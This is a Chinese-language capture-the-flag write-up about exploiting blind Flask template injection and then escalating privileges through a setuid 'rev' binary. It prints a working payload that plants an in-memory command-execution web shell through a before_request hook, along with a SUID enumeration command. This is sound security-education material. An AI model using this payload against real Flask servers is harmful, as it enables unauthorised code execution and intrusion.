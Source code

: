 # 第二十二章

出题人还是手下留情了，我本可能这辈子都无法反应过来发生了什么（

调用了`render_template_string`，但是没有给出结果，因此是无回显的ssti。可以参考这篇文章搞个内存马： https://the0n3.top/pages/77dbc1

最终payload如下：
```
?username={{url_for.__globals__.__builtins__['eval']("sys.modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen(__import__('flask').request.args.get('a')).read())")}}&password=b&a=rev --HDdss cat /flag
```
当时找到内存马那篇文章后以为这题就结束了，没想到env里没有flag。于是去根目录看了一眼。一个flag静静地躺在那里，然而需要root权限才能读。要我搞提权？这是web吗？

还好提权方法藏得不深，`find / -perm -4000 2>/dev/null`可以发现`/usr/bin/rev`有setuid，简单说就是运行时有root权限。非常好，快把flag给我吧（

结果运行`rev /flag`没有任何输出。嗯？得用绝对路径吗？`/usr/bin/rev`也没输出啊？用`>`重定向？还是出错了？什么都没有啊？此处省略一堆无用繁琐的傻子调试过程，包括：
- find搜索根目录下全部带有moectf字样的文件
- 不死心去看所有进程的environ
- 重启连接
- 本地调试
- 换payload
- （以上这些措施和提权有任何关系吗……）

总之最后我的结论是——这个根目录的flag是不是假的啊？烟雾弹？问题是它也没有藏任何其他的东西啊？

最后的最后选择了傻子方法：手动查看每个目录。app目录里没东西，然后看`bin -> usr/bin`。划到最后发现有个`rev.c`……此rev非彼rev……还好这玩意在bin目录里，顺序比较前，不然我一定会错过